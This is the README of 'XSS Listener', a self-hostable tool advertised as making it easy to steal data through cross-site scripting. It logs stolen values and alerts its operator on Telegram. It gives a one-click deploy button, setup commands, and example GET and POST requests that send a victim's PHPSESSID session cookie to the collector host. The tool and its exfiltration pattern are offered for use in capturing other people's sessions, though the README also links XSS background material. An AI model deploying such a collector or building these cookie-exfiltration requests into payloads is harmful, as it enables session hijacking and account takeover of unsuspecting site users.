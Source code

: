 ![logo](https://cagatay.js.org/spider.png)

#### 🕷️ XSS Listener is a penetration tool for easy to steal data with various XSS.

From now on, you do not need XSS listeners! XSS listener records the data you have stolen on the remote site in the database, and gives instant notification with telegram.

[![Deploy](https://www.herokucdn.com/deploy/button.svg)](https://heroku.com/deploy?template=https://github.com/cagataycali/xss-listener)

#### 🕸️ Know-How Background

- [ What is XSS ](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)

- [Steal cookie with XSS without redirecting to another page](https://security.stackexchange.com/questions/49185/xss-cookie-stealing-without-redirecting-to-another-page)

- [TR | How to use XSS](https://canyoupwn.me/tr-how-to-use-xss/)

#### 🕸️ Listener Usage

Listener accepts all HTTP methods with parameters, then save database. Example:

```
GET https://yourapp.com/?cookie=PHPSESSID=889c6594db2541db1666cefca7537373

or

POST https://yourapp.com/
Form: { cookie:'PHPSESSID=889c6594db2541db1666cefca7537373' }
```

#### You will notify by telegram bot.

![output](https://cagatay.js.org/output.png)

#### 🕸️ Detailed Usage

<details>

#### 🕸️ List previous requests
<code>https://yourapp.com/list</code>

#### 🕸️ Delete previous request by id
<code>https://yourapp.com/delete/[id]</code>

#### 🕸️ Even you can use telegram

<code>/list</code>

<code>/delete [id]</code></details>

#### 🕸️ Run local environment

In terminal,

```shell
git clone https://github.com/cagataycali/xss-listener.git; # Clone
cd xss-listener; # Change directory.
npm install; # Install dependencies.
# Fill bot token and user id.
TELEGRAM_TOKEN=[BOT TOKEN] TELEGRAM_USER_ID=[USER ID] node index.js
```

#### License

MIT © [Çağatay Çalı](https://cagatay.me)
